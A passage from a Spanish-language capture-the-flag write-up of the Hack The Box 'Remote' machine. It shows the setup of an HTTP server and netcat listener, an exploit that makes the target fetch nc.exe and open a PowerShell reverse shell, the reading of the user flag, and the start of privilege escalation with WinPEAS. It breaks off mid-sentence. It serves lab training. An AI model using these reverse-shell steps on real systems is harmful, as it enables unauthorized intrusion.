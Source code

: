 Antes de ejecutar el exploit, debemos descargar el ejecutable de netcat en el siguiente [link](https://eternallybored.org/misc/netcat/) , crear un servidor http con Python en el puerto 8080 e inicializar un sesión con netcat en el puerto 4444

```
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Remote]
└──╼ #ls
exploit.py  hash-admin  nc.exe  netcat-1.11  NFS  targeted.txt
┌──[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Remote]
└──╼ #python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...

┌─[root@parrot]─[~/Documents/Hack-the-box/Maquinas/Remote]
└──╼ $nc -nlvp 4444
listening on [any] 4444 ...
```

Ahora sí ejecutamos el exploit de la siguiente manera y como podemos observar en el siguiente código, ya tenemos acceso como usuario:

```
┌─[root@parrot]─[~/Documents/Hack-the-box/Maquinas/Remote]
└──╼ $python3 exploit.py 
Start
[]

┌──[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Remote]
└──╼ #python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.10.180 - - [19/Jun/2020 17:16:22] "GET /nc.exe HTTP/1.1" 200 -

┌─[root@parrot]─[~/Documents/Hack-the-box/Maquinas/Remote]
└──╼ $nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.10.180] 49685
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv> 
```

La flag del usuario se encuentra en el siguiente directorio

```
PS C:\windows\system32\inetsrv> type C:\Users\Public\user.txt
type C:\Users\Public\user.txt
6d4712...........................
```




## Escalamiento de privilegios

Primero, vamos a revisar posibles rutas de escalada de privilegios locales usando la herramienta [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS). Para esto, algo igual que hicimos con el ejecutable `nc.exe` vamos a guardar el archivo [WinPEASx64.exe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe/winPEAS/bin/Obfuscated%20Releases) en el directorio donde tenemos el servidor HTTP con Python corriendo y luego en la máquina donde tenemos nuestra shell reversa, vamos a escribir lo siguiente:
